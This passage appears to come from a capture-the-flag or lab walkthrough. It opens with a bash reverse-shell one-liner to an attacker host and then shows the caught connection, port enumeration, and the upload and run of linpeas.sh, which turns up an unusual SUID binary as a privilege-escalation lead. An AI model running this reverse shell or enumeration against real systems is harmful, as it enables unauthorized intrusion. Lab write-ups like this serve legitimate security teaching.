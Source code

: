 `bash -i >& /dev/tcp/192.168.56.118/4444 0>&1`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
[10:02:21] received connection from 192.168.56.134:37830 ←
[10:02:22] 192.168.56.134:37830: registered new host w/ db
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`ss -tunlp`:
```
Netid State  Recv-Q Send-Q          Local Address:Port Peer Address:PortProcess 
udp   UNCONN 0      0               127.0.0.53%lo:53        0.0.0.0:*           
udp   UNCONN 0      0      192.168.56.134%enp0s17:68        0.0.0.0:*           
tcp   LISTEN 0      4096            127.0.0.53%lo:53 ←      0.0.0.0:*           
tcp   LISTEN 0      128                   0.0.0.0:22        0.0.0.0:*           
tcp   LISTEN 0      511                         *:80              *:*           
tcp   LISTEN 0      128                      [::]:22           [::]:* 
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`upload /home/kali/tools/linpeas.sh`:
```
./linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 860.3/860.3 KB • ? • 0:00:00
[10:14:09] uploaded 860.34KiB in 0.73 seconds
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`chmod u+x ./linpeas.sh`

`./linpeas.sh > ./linpeas_output.txt`

`cat -n ./linpeas_output.txt`:
```
[...]

  1085                        ╔════════════════════════════════════╗
  1086  ══════════════════════╣ Files with Interesting Permissions 
  1087                        ╚════════════════════════════════════╝
  1088  ╔══════════╣ SUID - Check easy privesc, exploits and write perms
  1089  ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid  

[...]

  1117  -rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!) ←

[...]
```

`file /usr/sbin/pwm`:
```
/usr/sbin/pwm: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=01ec8570b00af8889beebc5f93c6d56fb9cc1083, for GNU/Linux 3.2.0, not stripped ←
```
